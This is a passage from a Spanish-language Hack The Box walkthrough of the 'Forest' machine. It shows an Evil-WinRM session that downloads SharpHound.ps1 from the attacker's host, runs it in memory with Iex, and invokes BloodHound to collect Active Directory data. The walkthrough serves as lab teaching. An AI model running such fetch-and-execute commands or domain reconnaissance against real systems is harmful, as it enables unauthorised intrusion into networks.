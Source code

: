 
Estas credenciales seran la que usaras para logearte al abrir `Bloodhound`.

![](/assets/images/HTB/htb-writeup-Forest/forest2.PNG)


Ahora descargaremos el script de powershell `sharphound.ps1` que se va a encargar de recolectar toda la información del equipo en un archivo comprimido, el cual subiremos al `bloodhound`.

 * [https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)


Subimos el script y lo interpretamos con `Iex`.


```bash
Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> mkdir bloodhound

    Directory: C:\Users\svc-alfresco\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/11/2023   2:46 PM                bloodhound


Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> cd bloodhound
Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bloodhound> Iex(New-Object Net.WebClient).downloadString('http://10.10.16.10/SharpHound.ps1')
Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bloodhound> Invoke-BloodHound -CollectionMethod All
Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bloodhound> dir

    Directory: C:\Users\svc-alfresco\Desktop\bloodhound
```